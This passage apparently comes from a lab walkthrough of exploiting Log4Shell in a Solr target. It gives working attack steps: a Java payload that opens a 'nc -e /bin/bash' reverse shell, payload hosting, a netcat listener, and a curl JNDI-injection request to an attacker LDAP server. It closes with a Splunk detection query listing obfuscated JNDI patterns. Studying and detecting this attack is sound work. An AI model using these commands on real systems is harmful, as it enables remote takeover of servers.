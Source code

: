 ![9](../assets/img/Log4Shell/07.png)

- Modify your attacker IP address and port number as appropriate.
- For this payload, you can see we will execute a command on the target, specifically nc -e /bin/bash to call back to our our attacker machine. This target has been configured with netcat for ease of exploitation, though you are more than welcome to experiment with other payloads.

- Compile your payload with
```bash
$ javac Exploit.java
```
![10](../assets/img/Log4Shell/08.png)

- With your payload created and compiled, you can now host it by spinning up a temporary HTTP server.
```bash
$ python3 -m http.server
```
- Your payload is created and compiled, it is hosted with an HTTP server in one terminal, your LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch your reverse shell in yet another new terminal window:
```bash
$ nc -lnvp 9001
```
-Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:
```bash
$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```
- Modify your attacker IP address as appropriate.
- Here we go, we get a reverse shell.
![11](../assets/img/Log4Shell/shell.png)

## Detection using Splunk:
- Detecting exploitation might be even harder, considering the unlimited amount of potential bypasses, However will try to detect it using SPL in Splunk.
- The following query can help us to detect this attack.

```sql
index="cp_log" ("2021-44228" OR "Log4j" OR "Log4Shell" OR "%24%7bjndi:" OR "%2524%257Bjndi" OR "%2F%252524%25257Bjndi%3A" OR "%7bjndi:" OR "%7Bjndi:" OR "{base64:JHtqbmRp{env:BARFOO:-j}" OR "{::-j}" OR "{jndi:corba" OR "jndi:dns:/" OR "jndi:iiop" OR "jndi:ldap:/" OR "jndi:ldaps:/" OR "jndi:${lower:" OR "jndi:nds" OR "jndi:nis" OR "jndi:rmi:/" OR "{::-l}${::-d}${::-a}${::-p}" OR "{\:\:-j}")
| convert timeformat="%Y-%m-%d-%H" ctime(_time) AS date
|stats sparkline values(user_agent) count by src_ip, dest_ip, dest_port, date

```
![12](../assets/img/Log4Shell/spl.png)

Refer: 
[log-jammin-log4j-2-rce](https://www.splunk.com/en_us/blog/security/log-jammin-log4j-2-rce.html){:target="_blank" rel="noopener"}
